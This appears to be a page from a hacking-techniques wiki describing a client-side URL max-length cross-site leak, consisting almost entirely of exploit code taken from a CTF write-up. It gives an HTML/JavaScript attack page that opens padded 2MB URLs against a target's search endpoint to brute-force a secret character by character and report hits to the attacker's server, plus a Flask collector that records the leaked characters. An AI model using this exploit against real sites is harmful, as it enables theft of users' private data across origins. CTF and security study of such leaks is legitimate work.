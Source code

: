 # URL Max Length - Client Side

<details>

<summary><strong>Learn AWS hacking from zero to hero with</strong> <a href="https://training.bytebreach.xyz/courses/arte"><strong>htARTE (ByteBreach AWS Red Team Expert)</strong></a><strong>!</strong></summary>

* Do you work in a **cybersecurity company**? Do you want to see your **company advertised in ByteBreach**? or do you want to have access to the **latest version of the PEASS or download ByteBreach in PDF**? Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/khulnasoft)!
* Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)
* Get the [**official PEASS & ByteBreach swag**](https://peass.creator-spring.com)
* **Join the** [**💬**](https://emojipedia.org/speech-balloon/) [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** me on **Twitter** 🐦[**@khulnasoftm**](https://twitter.com/bytebreach_live)**.**
* **Share your hacking tricks by submitting PRs to the** [**bytebreach repo**](https://github.com/khulnasoft/bytebreach) **and** [**bytebreach-cloud repo**](https://github.com/khulnasoft/bytebreach-cloud).

</details>

Code from [https://ctf.zeyu2001.com/2023/hacktm-ctf-qualifiers/secrets#unintended-solution-chromes-2mb-url-limit](https://ctf.zeyu2001.com/2023/hacktm-ctf-qualifiers/secrets#unintended-solution-chromes-2mb-url-limit)

```html
<html>
<body></body>
<script>
    (async () => {

        const curr = "http://secrets.wtl.pw/search?query=HackTM{"

        const leak = async (char) => {
            
            fetch("/?try=" + char)
            let w = window.open(curr + char +  "#" + "A".repeat(2 * 1024 * 1024 - curr.length - 2))
            
            const check = async () => {
                try {
                    w.origin
                } catch {
                    fetch("/?nope=" + char)
                    return
                }
                setTimeout(check, 100)
            }
            check()
        }

        const CHARSET = "abcdefghijklmnopqrstuvwxyz-_0123456789"

        for (let i = 0; i < CHARSET.length; i++) {
            leak(CHARSET[i])
            await new Promise(resolve => setTimeout(resolve, 50))
        }
    })()
</script>
</html>
```

Server side:

```python
from flask import Flask, request

app = Flask(__name__)

CHARSET = "abcdefghijklmnopqrstuvwxyz-_0123456789"
chars = []

@app.route('/', methods=['GET'])
def index():
    global chars
    
    nope = request.args.get('nope', '')
    if nope:
        chars.append(nope)

    remaining = [c for c in CHARSET if c not in chars]

    print("Remaining: {}".format(remaining))

    return "OK"

@app.route('/exploit.html', methods=['GET'])
def exploit():
    return open('exploit.html', 'r').read()

if __name__ == '__main__':
    app.run(host='0.0.0.0', port=1337)
```

<details>

<summary><strong>Learn AWS hacking from zero to hero with</strong> <a href="https://training.bytebreach.xyz/courses/arte"><strong>htARTE (ByteBreach AWS Red Team Expert)</strong></a><strong>!</strong></summary>

* Do you work in a **cybersecurity company**? Do you want to see your **company advertised in ByteBreach**? or do you want to have access to the **latest version of the PEASS or download ByteBreach in PDF**? Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/khulnasoft)!
* Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)
* Get the [**official PEASS & ByteBreach swag**](https://peass.creator-spring.com)
* **Join the** [**💬**](https://emojipedia.org/speech-balloon/) [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** me on **Twitter** 🐦[**@khulnasoftm**](https://twitter.com/bytebreach_live)**.**
* **Share your hacking tricks by submitting PRs to the** [**bytebreach repo**](https://github.com/khulnasoft/bytebreach) **and** [**bytebreach-cloud repo**](https://github.com/khulnasoft/bytebreach-cloud).

</details>

